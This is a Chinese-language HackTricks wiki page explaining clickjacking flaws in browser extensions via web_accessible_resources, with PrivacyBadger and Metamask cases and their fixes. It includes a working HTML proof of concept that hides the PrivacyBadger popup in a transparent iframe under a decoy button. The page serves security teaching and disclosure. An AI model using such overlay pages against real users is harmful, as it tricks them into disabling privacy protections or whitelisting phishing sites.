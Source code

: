 # BrowExt - ClickJacking

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## 基本信息

本页面将利用浏览器扩展中的 ClickJacking 漏洞。\
如果你不知道 ClickJacking 是什么，请查看：

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

扩展包含文件 **`manifest.json`**，该 JSON 文件有一个字段 `web_accessible_resources`。以下是 [Chrome 文档](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) 对此的说明：

> 这些资源将通过 URL **`chrome-extension://[PACKAGE ID]/[PATH]`** 在网页中可用，该 URL 可以通过 **`extension.getURL method`** 生成。允许的资源会带有适当的 CORS 头，因此可以通过 XHR 等机制访问。[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

浏览器扩展中的 **`web_accessible_resources`** 不仅可以通过网络访问；它们还具有扩展的固有权限。这意味着它们能够：

* 更改扩展的状态
* 加载额外的资源
* 在一定程度上与浏览器交互

然而，这一特性带来了安全风险。如果 **`web_accessible_resources`** 中的某个资源具有任何重要功能，攻击者可能会将该资源嵌入到外部网页中。毫不知情的用户访问此页面时，可能会无意中激活这个嵌入的资源。这种激活可能会导致意想不到的后果，具体取决于扩展资源的权限和能力。

## PrivacyBadger 示例

在扩展 PrivacyBadger 中，发现了一个与 `skin/` 目录被声明为 `web_accessible_resources` 相关的漏洞，具体如下（查看原始 [博客文章](https://blog.lizzie.io/clickjacking-privacy-badger.html)）：
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
此配置导致了潜在的安全问题。具体来说，`skin/popup.html` 文件在与浏览器中的 PrivacyBadger 图标交互时呈现，可以嵌入在 `iframe` 中。这种嵌入可能被利用来欺骗用户无意中点击“为此网站禁用 PrivacyBadger”。这样的行为将通过禁用 PrivacyBadger 保护来危害用户的隐私，并可能使用户面临更高的跟踪风险。此漏洞的视觉演示可以在 [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm) 提供的 ClickJacking 视频示例中查看。

为了解决此漏洞，实施了一个简单的解决方案：从 `web_accessible_resources` 列表中移除 `/skin/*`。此更改有效地降低了风险，确保 `skin/` 目录的内容无法通过网络可访问资源进行访问或操控。

修复很简单：**从 `web_accessible_resources` 中移除 `/skin/*`**。

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask 示例

一个关于 Metamask 中 ClickJacking 的 [**博客文章可以在这里找到**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)。在这种情况下，Metamask 通过检查访问所使用的协议是否为 **`https:`** 或 **`http:`**（而不是 **`chrome:`** 例如）来修复了该漏洞：

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**在 Metamask 扩展中修复的另一个 ClickJacking** 是用户能够在页面被怀疑为钓鱼时 **点击以列入白名单**，因为 `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`。由于该页面易受 Clickjacking 攻击，攻击者可以利用它显示一些正常内容，使受害者在未注意的情况下点击以列入白名单，然后返回到将被列入白名单的钓鱼页面。

## Steam Inventory Helper 示例

查看以下页面以检查浏览器扩展中的 **XSS** 如何与 **ClickJacking** 漏洞链式结合：

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## 参考文献

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
